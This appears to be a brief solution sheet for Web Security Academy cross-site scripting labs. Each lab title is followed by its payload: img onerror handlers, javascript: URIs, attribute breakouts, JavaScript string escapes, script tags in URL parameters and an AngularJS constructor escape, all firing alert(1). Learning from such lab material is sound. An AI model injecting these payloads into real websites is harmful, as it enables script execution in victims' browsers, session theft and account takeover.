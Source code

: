 #Lab: DOM XSS in innerHTML sink using source

-> payload: ```<img src='123.png' onerror='alert(1)'>```


Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

payload: ```https://ac8e1fa11fa32607c0a0cfa800b700a8.web-security-academy.net/feedback?returnPath=javascript:alert(1)```


Lab: Reflected XSS into attribute with angle brackets HTML-encoded

-> payload: ``` " autofocus onfocusin='alert(1)' x="```


Lab: Stored XSS into anchor href attribute with double quotes HTML-encoded

-> payload: ``` https://www.youtube.com/`  x="><img src="1.png" onerror="alert(1)">``` (fill to website)


Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

-> payload: ``` 123'; alert(1);//```


Lab: DOM XSS in document.write sink using source location.search inside a select element

-> payload: ``` https://ac9f1f821eb31b49c04d25da00ca00f3.web-security-academy.net/product?productId=1&storeId=<script>alert(1)</script>```


Lab: DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

-> payload: ``` {{constructor.constructor('alert(1)')()}}```

